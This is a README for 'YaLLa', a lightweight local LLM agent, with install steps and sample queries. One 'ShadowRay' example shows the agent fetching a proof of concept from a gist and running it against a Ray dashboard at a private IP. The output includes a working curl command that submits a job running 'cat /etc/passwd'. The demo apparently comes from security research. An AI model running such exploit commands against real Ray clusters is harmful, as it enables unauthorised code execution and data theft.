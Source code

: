 # Yet Another LLM Agent (YaLLa)
A tiny LLM Agent with minimal dependencies, focused on local inference.

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Tools](#tools)
- [Uses OpenAI API specification](#uses-openai-api-specification)
- [Get Started](#get-started)
- [Run the agent completely on device with Ollama](#run-the-agent-completely-on-device-with-ollama)
- [Run the agent using ChatGPT and OpenAI](#run-the-agent-using-chatgpt-and-openai)
- [Examples](#examples)
    - [Run ShadowRay on a given IP address based on a GIST example payload](#run-shadowray-on-a-given-ip-address-based-on-a-gist-example-payload)
- [Execution logs and history](#execution-logs-and-history)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Tools

1. **ubuntu_terminal:** Runs bash commands inside Ubuntu temporary container via `docker`.
2. **web_browser:** Accesses websites or search free text, to retrieve the inner text content and links. Uses `selenium` by default. can also use Jina AI's free browsing APIs.
3. **llm_query:** Communicate with the large language model.
4. **create_text_file:** Creates a text file inside the container.
5. **open_api:** Interacts with an OpenAPI service to fetch data or perform operations.

## Uses OpenAI API specification
- Local
  - <a href="https://ollama.com/">Ollama</a>
  - <a href="https://github.com/ggerganov/llama.cpp/server">llama.cpp</a>
- OpenAI
  - ```shell
    export OPENAI_API_KEY="sk-..."
    ```

## Get Started
**Clone:**
```shell
git clone https://github.com/avilum/yalla.git && cd yalla
```
**Install:**
```shell
python3 -m pip install -r requirements.txt
```
**Run:**
```shell
# helper function
function agent(){
  python3.11 agent.py $*
}

agent --help
```

## Run the agent completely on device with Ollama
1. Run ollama
```shell
ollama pull gemma2 && ollama serve
```
2. Run the agent with `--local`
```shell
agent --local --planner gemma2 --executor gemma2 --query "What happened to donald trump?"
agent --local --planner gemma2 --executor phi3 --query "Who acquired Deci AI"
agent --local --verbose --query "Create a fastapi app and run it in on port 8082." --steps 7
agent --query 'open_api: {"url": "https://api.example.com/data", "method": "GET"}'
```
## Run the agent using ChatGPT and OpenAI
1. Set the OpenAI API Key:
```shell
export OPENAI_API_KEY="sk-..."
```
2. Run the agent
```shell
agent --query "Who acquired Deci AI"
agent --planner gpt-4o --executor gpt-3.5-turbo --verbose --query "What are the top trending models on huggingface from last week?"
```
## Examples
Input:
```shell
agent --local --planner="gemma2:27b" --executor="gemma2" --query "What is the latest blog post by brendan gregg"
```
Output:
```text
The latest blog post by Brendan Gregg is titled "No More Blue Fridays" and was published on July 22, 2024.
You can find it at: /blog/2024-07-22/no-more-blue-fridays.html
```
---
#### Run ShadowRay on a given IP address based on a GIST example payload
Input:
```shell
agent --query "Follow the POC at https://gist.githubusercontent.com/avioligo/edde6aed604b4ec077a3505dfaa6f384/raw/2c6dcbfe2ee87aa21efa5db83c99b688689ef6e1/gistfile1.txt and run the example on IP 192.168.2.168 on port 8265 and return the Job ID and the command that was run "
```
Output:
```text
The command that was run is:

curl -X POST http://192.168.2.168:8265/api/jobs/ -H 'Content-Type: application/json' -d '{"entrypoint": "cat /etc/passwd", "runtime_env": {}, "job_id": null, "metadata": {"job_submission_id": "1"}}'

The Job ID returned is: **raysubmit_FdzLfdynrzsGgj64**.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "Who acquired Deci AI?"
```
Output:
```text
Nvidia acquired Deci AI for $300 million.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "What happened to donald trump"
```
Output:
```text
Based on the provided information from CNN and The New York Times, former President Donald Trump was involved in a shooting at a rally in Butler, Pennsylvania on July 13, 2024.

He was reportedly rushed off stage with blood on his ear and face. While the Secret Service confirmed he is safe, details about the incident and the shooter are still emerging.

It's important to note that information about this event is rapidly developing and may change. To get the most up-to-date information, it's best to refer to reliable news sources.
```
---
Input:
```shell
agent --local --planner="gemma2" --executor="gemma2" --query "Tell me about Avi Lumelsky from Oligo and about his researches"
```
Output:
```text
Avi Lumelsky is a security researcher at Oligo.

He is actively involved in researching and raising awareness about vulnerabilities in popular AI frameworks, particularly the Ray AI framework.  His work has been featured in prominent tech publications like TechTarget, Security Boulevard, The Register, and VentureBeat.

Lumelsky's research has highlighted critical vulnerabilities that can be exploited to gain control of AI workloads, compute resources, and sensitive data. He is a recognized speaker at cybersecurity conferences like BSidesBUD, where he shares his findings and insights with the broader security community.


You can find more information about Avi Lumelsky and his work on his LinkedIn profile and in the articles listed in the provided context.
```
---
Input:
```shell
agent --local --planner gemma2 --executor gemma2 --query "What are the trending models on huggingface right now?"
```
Output:
```text
Here are some of the trending models on HuggingFace right now, across various categories like text generation, image generation, and question answering:

* **Text Generation:**
    * Qwen2-72B-Instruct
    * Mixtral-8x7B-Instruct-v0.1
    * Gemma-2-9b-it
    * Gemma-2-27b-it
* **Image Generation:**
    * Stable Diffusion XL-Base 1.0
    * Kolors
    * AuraFlow
    * Stable Diffusion 3-Medium
* **Other:**
    * Microsoft's Florence-2-large (Image-Text-to-Text)
    * OpenAI's Whisper-large-v3 (Automatic Speech Recognition)

Keep in mind that trends change rapidly!  You can explore the full list and sort by popularity on the HuggingFace website.
```
---
## Execution logs and history
By default all the runs will be logged to the `.runs/` directory.<br>

More examples can be found at the <a href="examples/">/examples</a> folder.
